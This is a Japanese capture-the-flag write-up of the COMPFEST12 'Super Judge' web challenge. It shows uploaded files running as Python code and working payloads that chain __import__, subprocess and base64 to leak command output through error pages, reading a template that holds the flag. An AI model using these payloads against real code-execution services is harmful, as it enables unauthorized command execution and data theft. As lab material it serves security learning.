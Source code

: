 # Super Judge:Web:757pts
We tried to recreate competitive programming online judge for python only, but failed miserably, and by miserably, fatal failure. What's the bug? see if you can find it out!  
128.199.157.172:25000  
Alternate download link:  
[https://drive.google.com/file/d/1dsOq6DGnKRXuh0-bLUJ5m8WqO_ajSCs_/view?usp=sharing](https://drive.google.com/file/d/1dsOq6DGnKRXuh0-bLUJ5m8WqO_ajSCs_/view?usp=sharing)  
[super-judge.zip](super-judge.zip)  

# Solution
アドレスへアクセスすると以下のようなページだった。  
CTF Bonline Judge  
[site1.png](site/site1.png)  
ファイルをアップロードするとそこに書かれた数字をpythonが足すようだ。  
配布されているzipの中身には以下のhtmlが入っていた。  
```html
~~~
  <div class="container text-center content">
    {% if user.is_superuser %}
      <p>Hello, admin. Submission received!</p>
      <p>Here's the flag : REDACTED.</p>
    {% else %}
      <p>Hello, ordinary visitor. Submission received!</p>
    {% endif %}
  </div>
~~~
```
フラグが直で書かれているようなので、このファイルを取得することを目指す。  
admin以外の計算結果では`Hello, ordinary visitor. Submission received!`となるようだ。  
以下のようなa.txtをアップロードするがエラーが出なかった。  
```text:a.txt
100
print(123)
```
Python Emulator  
[site2.png](site/site2.png)  
つまり任意のpythonコードを実行できる。  
結果を外部に渡してやるのも一つの解法ではある(`__import__("urllib.request").request.urlopen`などで)。  
今回はエラーから実行結果を読み取ることができた。  
エラーは以下のb.txtで引き起こせる。  
```text:b.txt
100
__import__("hackhack")
```
ModuleNotFoundError at /  
[site3.png](site/site3.png)  
モジュール名が表示されている。  
このモジュール名にコード実行の結果を持ってこればよい。  
全文表示するためbase64をかませた。  
```text:c.txt
100
__import__(str(__import__("base64").b64encode(str(__import__("subprocess").check_output(["ls","-la","."])).encode())))
```
これによりError1.htmlが得られるので、デコードを行うと以下になる。  
```text
total 212
drwxr-xr-x 1 compfest12 compfest12   4096 Sep  7 09:15 .
drwxr-xr-x 1 root       root         4096 Sep  5 05:26 ..
-rw------- 1 compfest12 compfest12    308 Sep  7 09:20 .bash_history
-rw-r--r-- 1 compfest12 compfest12    220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 compfest12 compfest12   3771 Feb 25  2020 .bashrc
drwxrwxr-x 1 compfest12 compfest12   4096 Sep  5 06:00 .git
-rw-rw-r-- 1 compfest12 compfest12    679 Sep  5 06:00 .gitignore
-rw-r--r-- 1 compfest12 compfest12    807 Feb 25  2020 .profile
-rw-rw-r-- 1 compfest12 compfest12    534 Sep  5 06:00 Dockerfile
-rw-r--r-- 1 compfest12 compfest12 131072 Sep  7 09:15 db.sqlite3
-rw-rw-r-- 1 compfest12 compfest12    138 Sep  5 10:30 docker-compose.yml
drwxrwxr-x 1 compfest12 compfest12   4096 Sep  7 02:39 home
-rw-rw-r-- 1 compfest12 compfest12    629 Sep  5 06:00 manage.py
-rw-rw-r-- 1 compfest12 compfest12    198 Sep  5 06:00 payload.py
drwxrwxr-x 1 compfest12 compfest12   4096 Sep  7 02:39 pemulator
-rw-rw-r-- 1 compfest12 compfest12    532 Sep  5 06:00 readme.md
-rw-rw-r-- 1 compfest12 compfest12     86 Sep  5 06:00 requirements.txt
-rwxr-xr-x 1 compfest12 compfest12    160 Sep  5 10:30 run.sh
drwxrwxr-x 1 compfest12 compfest12   4096 Sep  5 06:00 templates
```
配布されているzipからファイル名がわかる。  
templates/result.htmlをcatすれば良い。  
```text:hack.txt
100
__import__(str(__import__("base64").b64encode(str(__import__("subprocess").check_output(["cat","templates/result.html"])).encode())))
```
これによりError2.htmlが得られるので、デコードを行うと以下になる。  
```html
~~~
  <div class="container text-center content">
    {% if user.is_superuser %}
      <p>Hello, admin. Submission received!</p>
      <p>Here\'s the flag : COMPFEST12{f4k3_5up312_u53r_hUH_?}.</p>
    {% else %}
      <p>Hello, ordinary visitor. Submission received!</p>
    {% endif %}
  </div>
~~~
```
flagが書かれている。  

## COMPFEST12{f4k3_5up312_u53r_hUH_?}